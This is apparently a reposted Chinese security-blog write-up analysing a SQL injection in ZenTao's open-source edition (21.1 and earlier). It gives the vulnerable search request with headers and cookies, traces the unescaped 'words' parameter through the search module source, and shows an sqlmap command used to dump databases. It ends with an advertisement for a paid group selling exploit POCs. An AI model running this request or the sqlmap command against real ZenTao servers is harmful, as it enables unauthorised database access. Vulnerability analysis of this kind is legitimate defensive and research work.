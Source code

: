 #  禅道CMS开源版SQL注入漏洞分析   
1629192581190874  神农Sec   2025-01-12 01:00  
  
扫码加圈子  
  
获内部资料  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXLicr9MthUBGib1nvDibDT4r6iaK4cQvn56iako5nUwJ9MGiaXFdhNMurGdFLqbD9Rs3QxGrHTAsWKmc1w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
#   
  
网络安全领域各种资源，学习文档，以及工具分享、前沿信息分享、POC、EXP分享。  
不定期分享各种好玩的项目及好用的工具，欢迎关注。  
#   
  
原文链接：https://xz.aliyun.com/t/16976  
  
作者：1629192581190874  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x1 前言介绍**  
  
  
**禅道CMS开源版存在SQL注入漏洞**  
**官网：**  
https://www.zentao.net/  
**影响版本：**  
开源版21.1及以下版本  
**漏洞类型：**  
SQL注入  
**漏洞url：**  
http://192.168.88.9//index.php?m=search&f=index&words=2&type=all&zin=1  
  
  
**漏洞数据包（请手动抓包验证漏洞）：**  
```
GET /index.php?m=search&f=index&words=1

&type=all&zin=1 HTTP/1.1

Host: 192.168.88.6

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: 

/

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate, br

Referer: 

http://192.168.88.6/

X-ZIN-Options: {"selector":["#configJS","title>

","body>*"],"type":"list"}

X-ZIN-App: search

X-Zin-Cache-Time: 0

X-Requested-With: XMLHttpRequest

Connection: keep-alive

Cookie: zentaosid=d5ikdmm295l1ca5ec4an8p4f7u; lang=zh-cn; vision=rnd; device=desktop; theme=default; keepLogin=on; za=admin; zp=abd630d8e942046184fb94d4e591e66cd011665a; hideMenu=false; tab=search

Priority: u=4
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x2 漏洞复现**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoW1jrX57Gia1rwcFtKXnVGMBQzTwospIkQ8ploNAO7AGgDE0SZ7s6Fkug/640?wx_fmt=png&from=appmsg "")  
  
随便输入一点东西进行搜索  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoWPH4D48oDwowFhdVlSrTic9tN5icM6ic9Kh6dT6xySeY40ntjaf16aSEug/640?wx_fmt=png&from=appmsg "")  
  
  
确定搜索参数为words  
  
输入单引号页面报错怀疑存在sql注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoWwW8qyzIGjm0roNRGIaXZyF22zzAhes92cqrMCWMxbPgBOVCm895iaKA/640?wx_fmt=png&from=appmsg "")  
  
  
对源码进行审计：  
  
根据路由来到module\search\ control.php  
  
在index这个方法中，words 参数被直接传递给 getList 方法，而 getList 方法在 model.php 中定义  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoWwiaNXviclibian02BpkSesaCXRVSEqicy0yicDaVaKcia0ibxYCoWBH5qa0Icw/640?wx_fmt=png&from=appmsg "")  
  
  
接着来到 model.php，words 参数主要在 getList 方法中使用，在这个方法中，keywords 参数被传递给 getSqlParams 方法，并且 againstCond 和 likeCondition 被直接插入到 SQL 查询中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoWjM88RLXyEbcc7CO9pXSTFkVIB4EZv2SmBf6YiarccWJFk63MptC57rg/640?wx_fmt=png&from=appmsg "")  
  
  
再接着来到module\search\tao.php  
  
分析getSqlParams 方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoWbNZvCYsvc7gEK9ic34ThznUoDribuupyvATqomesYvJ4ksx6IaVYcoNw/640?wx_fmt=png&from=appmsg "")  
  
  
这里存在 SQL 注入漏洞，因为 keywords 参数没有进行任何过滤或转义处理。  
  
在 againstCond 的拼接过程中，每个单词被直接添加到查询条件中，没有进行任何过滤或转义处理。如果 $word 是单引号（'），它会被包含在 + 运算符和双引号内，导致生成的 SQL 查询语句不正确。likeCondition 直接将 $keywords 插入到 SQL 查询中，没有进行任何过滤或转义处理。如果 $keywords 包含特殊字符（如单引号等），会导致生成的 SQL 查询语句不正确，从而产生 SQL 注入漏洞。  
  
$keywords 变量的处理会将这个单引号字符传递给 $against 和 $againstCond。  
  
最终生成的 SQL 查询语句中会出现不正确的字符，导致 SQL 注入漏洞。  
  
上述分析后接下来对搜索功能的数据包进行抓包并把参数加入*号 放入sqlmap进行测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoW7VeZMc5D22E3LCruzLMR0Z51ZG6GnPcRvZ6HkSyM653gPJ3pBzpgwQ/640?wx_fmt=png&from=appmsg "")  
  
  
命令如下：  
  
python sqlmap.py -r 1.txt --level=5 --risk=3 --threads=10 --dbms=mysql  
  
扫描出多个盲注  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVjaf499F00TosawmKLsAoW7YUfavYia9YboLvIRBfIpicxBuD0uEds8s8Z4DndsNZKrsYial0KmpNBQ/640?wx_fmt=png&from=appmsg "")  
  
  
执行—dbs尝试查询数据库验证漏洞  
  
验证成功，到此结束  
  
  
  
我们是神农安全，  
**点赞 + 在看**  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
圈子专注于更新  
**src/红蓝攻防**  
相关：  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、知识星球专属微信“小圈子交流群”
3、微信小群一起挖洞
4、内部团队专属EDUSRC证书站漏洞报告
5、分享src优质视频课程（企业src/EDUSRC/红蓝队攻防）
6、分享src挖掘技巧tips
7、不定期有众测、渗透测试项目（一起挣钱）
8、不定期有工作招聘内推（工作/护网内推）
9、送全国职业技能大赛环境+WP解析（比赛拿奖）
```  
  
  
  
  
  
```
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWBeNFS2WNPd2FJ1SmqGkcf3s0DkMZicbriaUEuXagWt2eqxBWkUXRyQabIczmNAT5nTxc9tvaBzlww/640?wx_fmt=png&from=appmsg "")  
  
  
**欢迎加入星球一起交流，券后价仅40元！！！ 即将满200人涨价**  
  
**长期更新，更多的0day/1day漏洞POC/EXP**  
  
    
  
  
  
